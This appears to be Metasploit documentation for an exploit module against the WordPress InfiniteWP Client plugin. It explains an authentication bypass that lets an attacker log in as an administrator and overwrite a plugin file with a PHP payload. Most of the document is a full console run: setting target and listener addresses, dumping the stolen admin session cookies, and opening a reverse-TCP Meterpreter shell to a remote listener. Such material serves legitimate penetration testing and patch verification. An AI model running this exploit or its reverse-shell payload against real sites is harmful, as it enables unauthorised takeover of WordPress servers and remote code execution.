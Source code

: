 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

### Setup

1. Install WordPress
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4

```
msf5 > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > show missing

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8080
rport => 8080
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CF8scWg5ll4PTVNpRx9Ye4ACXAFiICxpezmukJrU5Izb%7C066e08465b4fcf95f8562a65d25338f7e09f18832c583d4f5960f7cb9ba0a0b8; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CF8scWg5ll4PTVNpRx9Ye4ACXAFiICxpezmukJrU5Izb%7C066e08465b4fcf95f8562a65d25338f7e09f18832c583d4f5960f7cb9ba0a0b8; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CF8scWg5ll4PTVNpRx9Ye4ACXAFiICxpezmukJrU5Izb%7C33df9b73b0ea9ea85f521c28848f9118bb62862418ae306d2ff14732011e5681; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CTzi0VghEMcaH7twJkibB54wx4OXJ1VwGwOvuwHl1zIR%7C3db5cc0c5d78db233519a12afb40d3b23d96c70ee956cad6f5a72c5a5d05e3aa; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CTzi0VghEMcaH7twJkibB54wx4OXJ1VwGwOvuwHl1zIR%7C3db5cc0c5d78db233519a12afb40d3b23d96c70ee956cad6f5a72c5a5d05e3aa; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1581232705%7CTzi0VghEMcaH7twJkibB54wx4OXJ1VwGwOvuwHl1zIR%7C004c44e308040800a0b986f233011ac1c7a5c05dcd1561db44bb2514b2fcc332;
[+] Successfully logged in as admin
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: ebb5a2b07f
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: ebb5a2b07f
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:64787) at 2020-02-07 01:18:27 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 2c991a571915
OS          : Linux 2c991a571915 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```

